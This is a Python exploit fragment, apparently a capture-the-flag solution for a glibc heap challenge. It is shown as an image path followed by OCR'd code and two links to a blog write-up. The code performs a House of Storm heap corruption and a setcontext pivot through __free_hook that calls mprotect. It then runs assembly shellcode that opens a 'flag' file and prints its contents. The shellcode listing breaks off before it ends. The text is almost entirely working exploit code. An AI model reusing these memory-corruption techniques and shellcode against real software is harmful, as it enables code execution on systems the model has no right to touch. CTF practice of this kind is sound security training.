 ```python
add(0x78)#9
add(0x48)#11
add(0x4a9)#12
edit(10,p64(0)*7+p64(0x4a1)+p64(0)+p64(bk)+p64(0)+p64(bk_nextsize))#edit the head of LARGECHUNK
edit(11,p64(0)+p64(0x21)*7)
free(10)
edit(11,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))#edit the head & bk of UNSORTEDCHUNK
add(0x48)#10
#House of Storm


# setcontext 
magic=libc.sym['__free_hook']+0x8
top='''
mov rdx,0x1234000
mov al,9
mov rdi,rdx
jmp .+0x14
'''
shellcode='''
mov rsi,0x1000
mov dx,0x7
mov r10,0x22
syscall
mov rsi,rax
xchg r9,rax
mov rdi,rax
syscall
push 0x1234000
ret
'''
edit(10,asm(top).ljust(0x10,'\x00')+p64(base+0x47b75)+p64(magic-0x18)+asm(shellcode))
payload=p64(0x7ffff7b15e89-0x7ffff7a3b000+base)+p64(0x7ffff7a7d4d5-0x7ffff7a3b000+base)+p64(0)
payload=payload.ljust(0x28,'\x00')+p64(0xfffffffffffffff)+p64(0)
payload=payload.ljust(0x68,'\x00')+p64(magic&0xffffffffffff000)+p64(0x1000)
payload=payload.ljust(0x88,'\xff')+p64(0x7)
payload=payload.ljust(0xa0,'\x00')+p64(magic)+p64(libc.sym['mprotect'])
edit(12,payload)
free(12)
# setcontext 



# Show time
context.log_level='debug'
sh='''
mov rsp,0x1234400
mov rax,2
mov rdi,0x67616c662f2e
push rdi
mov rdi,rsp
mov rsi,0
mov rdx,0
syscall
mov rdi,rax
mov rax,0
mov rsi,0x1234500
mov rdx,0x100
syscall
mov rax,1
mov rdi,1
mov rsi,0x1234500
mov rdx,0x100
```

[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()